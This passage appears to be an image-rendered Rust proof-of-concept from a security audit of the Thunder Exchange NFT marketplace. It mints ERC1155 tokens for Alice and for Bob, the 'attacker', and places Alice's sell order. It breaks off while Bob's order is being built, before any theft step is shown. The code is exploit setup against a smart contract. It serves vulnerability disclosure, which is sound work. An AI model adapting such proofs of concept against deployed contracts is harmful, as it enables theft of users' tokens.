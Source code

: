 ```
    //Bob becomes the attacker in this POC who steals the ERC1155 tokens from Alice.
    erc1155.methods()
        .mint(alice.address().into(), Bits256::zeroed(), 100)
        .append_variable_outputs(1)
        .call()
        .await
        .unwrap();
    erc1155.methods()
        .mint(bob.address().into(), Bits256::zeroed(), 1)
        .append_variable_outputs(1)
        .call()
        .await
        .unwrap();
    
    //These are the parameters for alice sell order. This will allow her to sell her 100 ERC1155 tokens for a price of 1000
    let maker_order_input_alice = MakerOrderInput {
        maker: alice.address().into(),
        collection: erc1155_id.clone(),
        price: 1000,
        amount: 100,
        nonce: 1,
        strategy: strategy_id,
        payment_asset: BASE_ASSET,
        expiration_range: 10000,
        token_id: Bits256::zeroed(),
        side: Side::Sell,
        extra_params: ExtraParams {
            extra_address_param: Address::zeroed(),
            extra_contract_param: ContractId::zeroed(),
            extra_u_64_param: 0
        }
    };

    //alice places her order on the thunder exchange and sends her 100 tokens
    thunder_exchange_alice.methods()
        .place_order(maker_order_input_alice)
        .call_params(CallParameters::new(100, ERC1155_NFT, 1_000_000))
        .unwrap()
        .append_contract(execution_manager_id.into())
        .append_contract(strategy_id.into())
        .append_contract(pool_id.into())
        .append_contract(asset_manager_id.into())
        .call()
        .await
        .unwrap();
    println!("-----------Alice sells 100 ERC1155 tokens-----------");
    println!("alice ERC1155 balance: {:#?}\n\n",  alice.get_asset_balance(&ERC1155_NFT).await.unwrap()); //Shows that alice has no more ERC1155 tokens
    
    //These are the parameters for bobs sell order. This will allow him to sell his 1 ERC1155 token for a price of 10
    let mut maker_order_input_bob = MakerOrderInput {
        maker: bob.address().into(),
        collection: erc1155_id.clone(),
        price: 10,
        amount: 1,
        nonce: 1,
        strategy: strategy_id,
        payment_asset: BASE_ASSET,
        expiration_range: 10000,
        token_id: Bits256::zeroed(),
        side: Side::Sell,
```